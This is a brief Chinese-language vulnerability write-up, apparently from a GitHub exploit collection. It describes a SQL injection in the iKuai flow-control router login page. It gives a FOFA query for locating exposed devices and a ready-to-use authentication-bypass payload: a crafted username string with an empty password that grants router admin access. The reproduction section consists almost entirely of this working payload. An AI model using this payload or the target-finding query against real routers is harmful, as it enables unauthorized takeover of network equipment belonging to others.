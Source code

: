 # iKuai-流控路由-SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

> [!NOTE]
>
> iKuai 流控路由

## FOFA

> [!NOTE]
>
> title="登录爱快流控路由"

## 漏洞复现

登录页面如下

![image-20210531180103698](iKuai-流控路由-SQL注入漏洞.assets/16273635725032809.jpg)

使用万能密码登录后台

```
user: "or""=""or""="
pass: 空
```

![image-20210531180212296](iKuai-流控路由-SQL注入漏洞.assets/1627363572804089.jpg)